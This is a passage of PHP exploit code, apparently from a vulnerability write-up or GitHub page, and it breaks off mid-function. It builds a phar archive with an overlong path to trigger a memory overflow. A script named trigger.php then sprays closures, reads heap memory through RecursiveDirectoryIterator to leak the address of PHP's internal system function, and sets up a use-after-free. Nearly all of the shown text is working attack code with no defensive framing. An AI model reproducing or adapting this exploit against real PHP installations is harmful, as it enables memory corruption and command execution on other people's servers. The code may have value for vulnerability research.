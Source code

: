 ```php
$phar->addFromString($dir_name . DIRECTORY_SEPARATOR . str_repeat('A', 32), 'This is the content of the file.');
// trigger overflow
$phar->addFromString($dir_name . DIRECTORY_SEPARATOR . str_repeat('A', PHP_MAXPATHLEN - 1).'B', 'This is the content of the file.');
```

**trigger.php**

```php
<?php

// zif_system_offset - closure_handlers_offset
$zif_system_offset = -0x8a1390;
$it_arr = array();

$zif_system = leak_zif_system_addr();
echo "[*] zif_system address: 0x". dechex($zif_system). "\n";

trigger_UAF($zif_system);

function create_RDI()
{
    $it = new RecursiveDirectoryIterator("phar://./m2.phar");

    // find the first directory
    foreach ($it as $file) {
        // echo $file . "\n";
        if($file->isDir()) {
            break;
        }
    }

    return $it;
}

function leak_zif_system_addr() {
    global $zif_system_offset;
    global $it_arr;

    // fill memory chunk with lots of zend_closures;
    $f_arr = [];
    for ($i = 0; $i < 0x2024; $i++) {
        $f_arr[$i] = function(){};
    }

    // find zend_closure
    $closure_handlers = 0;
    while (1) {
        $it = create_RDI();
        $sub_it = $it->getChildren();

        // preserve every iterator to avoid double freeing on sub_path
        $it_arr[] = $sub_it;

        // trigger overflow
        foreach($sub_it as $file) {}

        $data = $sub_it->getSubPath();

        // refcounted && is_object
        if (read64($data, 0) == 0x800000001) {
            $closure_handlers = read64($data, 0x18);
            break;
```